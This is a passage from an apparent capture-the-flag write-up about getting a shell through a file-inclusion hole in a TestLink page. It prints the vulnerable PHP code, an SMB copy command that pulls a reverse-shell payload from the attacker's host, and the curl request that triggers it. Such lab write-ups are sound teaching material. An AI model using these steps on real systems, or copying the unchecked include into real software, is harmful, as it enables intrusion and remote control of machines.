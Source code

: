 
If I visit `/testlink/linkto.php`, I see it fails on a `require_once` call
trying to open the empty string:

![1544010935572](https://0xdfimages.gitlab.io/img/1544010935572.png)

Opening up `linkto.php`, I notice something at the top of the code just after
all the comments. There is a variable, `$PiperCoinAuth` which is set by a post
parameter if another post parameter is present. Later, this is passed to
`require_once`:

    
    
    ...[snip]...
    // alpha 0.0.1 implementation of our new pipercoin authentication tech
    // full API not done yet. just submit tokens with requests for now.
    if(isset($_POST['PiperID'])){$PiperCoinAuth = $_POST['PiperCoinID']; //plugins/ppiper/pipercoin.php
            $PiperCoinSess = base64_decode($PiperCoinAuth);
            $PiperCoinAvitar = (string)$PiperCoinSess;}
    
    // some session and settings stuff from original index.php
    require_once('lib/functions/configCheck.php');
    checkConfiguration();
    require_once('config.inc.php');
    require_once('common.php');
    require_once('attachments.inc.php');
    require_once('requirements.inc.php');
    require_once('testcase.class.php');
    require_once('testproject.class.php');
    require_once('users.inc.php');
    require_once($PiperCoinAuth);    <-- I can control in post
    testlinkInitPage($db, true);  
    ...[snip]...
    

That means I can provide a path anywhere on the host, and it will be included.

### Shell as system

I’ll grab a [Windows php reverse shell](https://github.com/Dhayalanb/windows-
php-reverse-shell/blob/master/Reverse%20Shell.php), update the ip and port,
and get it onto the system:

    
    
    C:\>copy \\10.10.14.14\share\php-rev-shell.php \users\nelson\appdata\local\temp\a.php
    copy \\10.10.14.14\share\php-rev-shell.php \users\nelson\appdata\local\temp\a.php
            1 file(s) copied.
    

Trigger it with `curl`, with `PiperID` to get past
`if(isset($_POST['PiperID']))`, and setting `PiperCoinID` as my shell
location:

    
    
    root@kali# curl -X POST http://localhost:5080/testlink/linkto.php -d 'PiperCoinID=C:\Users\Nelson\AppData\Local\Temp\a.php&PiperID' -x http://127.0.0.1:8080
    